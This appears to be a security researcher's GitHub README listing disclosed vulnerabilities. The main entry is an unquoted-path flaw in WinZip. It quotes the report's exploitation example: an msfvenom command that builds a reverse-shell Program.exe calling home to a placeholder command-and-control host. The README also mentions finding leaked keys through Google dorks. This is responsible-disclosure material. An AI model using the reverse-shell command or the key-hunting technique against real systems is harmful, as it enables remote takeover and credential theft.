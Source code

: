 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf
- Credited: https://support.corel.com/hc/en-us/articles/217086227
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 


### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

